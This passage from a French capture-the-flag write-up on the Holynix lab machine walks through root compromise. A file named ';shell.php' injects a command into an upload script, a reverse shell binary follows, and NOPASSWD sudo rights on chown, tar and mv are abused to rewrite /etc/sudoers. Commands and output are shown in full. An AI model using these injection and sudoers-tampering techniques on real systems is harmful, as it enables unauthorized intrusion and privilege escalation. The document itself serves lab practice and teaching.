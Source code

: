 Donc ce script prend bêtement le nom du fichier, l'upload dans le dossier `/upload` mais le déplace aussitôt vers le dossier de l'utilisateur avec un `sudo mv` ce qui explique que je ne le retrouvais plus.

Il y a une faille d'injection de commande ici par conséquent si je casse la commande du `sudo mv` mon upload ne sera pas déplacé.

Pour cela j'ai uploadé mon shell avec le nom `;shell.php` et j'ai bien retrouvé le fichier dans `/upload`.

## J'ai merdé

Une fois uploadé et exécuté un `reverse-sshx86` (le système est 32 bits : `Linux holynix 2.6.24-26-server #1 SMP Tue Dec 1 19:19:20 UTC 2009 i686 GNU/Linux`, `Ubuntu 8.04.4 LTS (hardy)`) je me suis penché sur ce qui autorisait l'utilisateur affecté au serveur web à lancer des commandes sudo :

```bash
www-data@holynix:/var/apache2/htdocs/upload$ sudo -l
User www-data may run the following commands on this host:
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /bin/chgrp
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /bin/mv
```

Mon idée a été d'exploiter l'autorisation de faire un `chown` pour ajouter une entrée à `/etc/sudoers` :

```bash
$ sudo /bin/chown www-data.www-data /etc/sudoers
$ chmod u+w /etc/sudoers
```

Par défaut `sudoers` est en mode 440 `donc` il faut modifier la permission pour l'éditer. J'ai rajouté `/bin/bash` à la suite des commandes autorisées :

`%www-data ALL = NOPASSWD: /bin/chown, /bin/chgrp, /bin/tar, /bin/mv, /bin/bash`

Ensuite je remet les permissions d'origine, sauf que :

```bash
$ chmod u-w /etc/sudoers
$ sudo /bin/chown root.root /etc/sudoers         
sudo: /etc/sudoers is owned by uid 33, should be 0
```

Héhéhé ! `sudo` ne veut pas s'exécuter car `sudoers` appartient à `www-data` à ce moment là !

## On la refait moins crispé

Cette fois je vais travailler sur une copie du `sudoers` pour éviter les bétises. `cp` n'est pas dans les commandes autorisées alors j'ai eu recours à `tar` pour faire une copie :

```bash
www-data@holynix:/var/apache2/htdocs/upload$ sudo /bin/tar c /etc/sudoers > sudoers.tar
/bin/tar: Removing leading `/' from member names
www-data@holynix:/var/apache2/htdocs/upload$ ls
;shell.php  index.php  reverse-sshx86  sudoers.tar
www-data@holynix:/var/apache2/htdocs/upload$ tar xvf sudoers.tar 
etc/sudoers
www-data@holynix:/var/apache2/htdocs/upload$ chmod u+w etc/sudoers
www-data@holynix:/var/apache2/htdocs/upload$ vi etc/sudoers
www-data@holynix:/var/apache2/htdocs/upload$ chmod u-w etc/sudoers 
www-data@holynix:/var/apache2/htdocs/upload$ sudo /bin/chown root.root etc/sudoers
www-data@holynix:/var/apache2/htdocs/upload$ ls -l etc/sudoers
-r--r----- 1 root root 768 Nov 18 09:58 etc/sudoers
www-data@holynix:/var/apache2/htdocs/upload$ sudo /bin/mv etc/sudoers /etc/sudoers
www-data@holynix:/var/apache2/htdocs/upload$ sudo /bin/bash
root@holynix:/var/apache2/htdocs/upload# id
```